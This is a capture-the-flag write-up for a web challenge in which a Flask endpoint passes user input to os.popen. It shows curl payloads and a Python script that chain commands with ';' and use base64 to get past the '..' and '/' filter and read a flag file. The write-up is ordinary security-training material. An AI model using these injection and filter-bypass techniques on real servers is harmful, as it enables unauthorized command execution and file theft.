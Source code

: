 ### CTF: BRAEKERCTF


### Challenge:

- Empty execution [web]


### Challenge 1: Empty execution

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd88f21-d29a-4ada-a85a-36e21201fa20)

### Source Code:

```     
 from flask import Flask, jsonify, request
 import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':   
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')
    # Run server
    app.run(host='0.0.0.0', port=80)
```

- The goal of this challenge is to read flag.txt.After reading the source code,I noticed that the webpage is vulnerable to command injection because the os method `popen` executes shell commands on the server.

  
            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

- This code changes directory to a directory named executables

       # Make sure we can only execute binaries in the executables directory
         os.chdir('./executables/')
  
### Security checks
- But the code filters some characters from the user input e.git raises an alert `Hacking attempt detected` if the user input contains '..' or '/'.
It also raises a `command too short` error if the user input is lesser than 5 .

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

- Lastly, it uses the split() method to cut characters before `[space]`, tag it as the variable executable_to_run and use os.access()
to check if the binary or executable can be executed.If it cannot be executed,it raises an error message `Not implemented`.
    
       # Check if we can execute the binary
            if os.access(executable_to_run, os.X_OK):
    
                # Execute binary if it exists and is executable
                out = os.popen(command).read()
                return jsonify({'message': 'Command output: ' + str(out)}), 200
    
        return jsonify({'message': 'Not implemented'}), 501

### Crafting a Payload

- The first step is to bypass the os.access() filter by ensuring that it returns True,I bypassed it with '. ' because the characters '.' and '..' are present in a linux directory.'.' is a link to your current directory and '..' is a link to the parent directory.I added space after '.' to allow the code split '.' and a couple of gibberish text to bypass the length check.
   
      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". zzzzz"}' -H 'Content-Type: application/json'                                                    
      {"message":"Command output: "}

- Now we can execute commands,but I placed ";" after the space to execute close the first statement and execute nother statement.The next step was to find binaries to read the flag.I was able to use `which` to locate binaries and it worked.The `which` binary is used to find binaries path.Using which to find base64 and echo binaries' path confirmed the existence of the binaries on the server.

      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;which base64;which echo"}' -H 'Content-Type: application/json'
      {"message":"Command output: /bin/base64\n/bin/echo\n"}

- Now we can craft a payload with base64 and echo,I was able to craft this payload `base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)`.I encoded '../flag.txt' with base64 since flag.txt is not present in the current directory, we will need to move up one directory and .. and / are both filtered by the code.Echo pipes it to base64 which decodes it and the process is executed with $().Base64 can read files passed to it and return it in base64 encoded text.The flag is encoded and returned back to us in base64 text.

        curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)"}' -H 'Content-Type: application/json'
      {"message":"Command output: YnJja3tDaDMzcl9VcF9CdWRkWV9KVTV0XzN4M0N1dDNfNF9EMXJlQ1Qwcnl9\n"} 

- I automated it with python to receive the flag and decode it.

      #! /usr/bin/env python3
      import requests
      import json
      import base64
      headers = {"Content-Type": "application/json"}
      data = data = {'command':'. ;base64 $(echo \'Li4vZmxhZy50eHQK\' | base64 -d)'}
      response = requests.post("https://braekerctf-empty-execution.chals.io/run_command",data=json.dumps(data),headers=headers).text
      encodedFlag=json.loads(response)["message"].split('Command output: ')[1].encode()
      print(base64.b64decode(encodedFlag).decode())

- Flag

      $ ./emptyexec.py
        brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}
